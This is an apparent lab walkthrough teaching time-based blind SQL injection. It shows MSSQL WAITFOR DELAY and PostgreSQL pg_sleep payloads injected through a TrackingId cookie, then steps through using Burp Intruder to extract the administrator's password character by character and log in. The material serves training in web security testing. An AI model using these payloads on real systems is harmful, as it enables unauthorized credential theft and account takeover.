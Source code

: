 ### Exploiting blind SQL injection by triggering time delays

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```'; IF (1=2) WAITFOR DELAY '0:0:10'--```

```'; IF (1=1) WAITFOR DELAY '0:0:10'--```

The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--```


### Blind SQL injection with time delays and information retrieval

1 - Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.

2 - Modify the TrackingId cookie, changing it to:

```TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--```

Verify that the application takes 10 seconds to respond.

3 - Now change it to:
```TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--```

Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.

4 - Now change it to:

```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

Verify that the condition is true, confirming that there is a user called administrator.

5 - The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

This condition should be true, confirming that the password is greater than 1 character in length.

6 - Send a series of follow-up values to test different password lengths. Send:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

Then send:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.

7 - After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

8 - In the Positions tab of Burp Intruder, change the value of the cookie to:
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

9 - Place payload position markers around the a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):
```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

10 - To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

11 - To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

12 - Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

13 - Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

14 - Review the attack results to find the value of the character at the first position. You should see a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.

15 - Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

```TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```

16 - Launch the modified attack, review the results, and note the character at the second offset.

17 - Continue this process testing offset 3, 4, and so on, until you have the whole password.

18 - In the browser, click "My account" to open the login page. Use the password to log in as the administrator user. 


